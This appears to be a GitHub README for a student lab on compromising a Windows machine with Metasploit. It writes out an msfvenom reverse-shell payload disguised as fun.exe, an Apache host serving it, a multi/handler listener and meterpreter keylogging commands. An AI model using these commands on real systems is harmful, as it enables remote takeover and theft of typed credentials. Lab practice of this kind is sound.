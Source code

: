 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![alt text](output1.png)


Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![alt text](output2.png)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![alt text](output3.png)

Start apache server
sudo systemctl apache2 start
## OUTPUT:
![alt text](output4.png)

Check the status of apache2
## OUTPUT:
![alt text](output5.png)

Invoke msfconsole:
## OUTPUT:

![alt text](output6.png)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:
![alt text](output7.png)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0

## OUTPUT:
![alt text](output8.png)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe  ( Replace IP address appropriately)
The file "fun.exe" downloads. 

## OUTPUT:
![alt text](output9.png)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![alt text](output10.png)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![alt text](output11.png)



keyscan_dump	Shows the keystrokes captured so far
## OUTPUT:
![alt text](output12.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

